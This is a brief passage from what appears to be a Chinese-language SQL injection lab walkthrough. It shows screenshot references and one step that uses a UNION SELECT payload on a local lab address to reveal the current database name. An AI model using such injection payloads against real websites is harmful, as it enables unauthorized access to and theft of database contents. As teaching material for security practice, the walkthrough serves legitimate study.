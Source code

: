 ![](images/当前用户.PNG)

* 获取当前数据库名：让第二列显示为database()。
```
192.168.56.4/cat.php?id=1 union select 1,database(),3,4
```

![](images/数据库名.PNG)
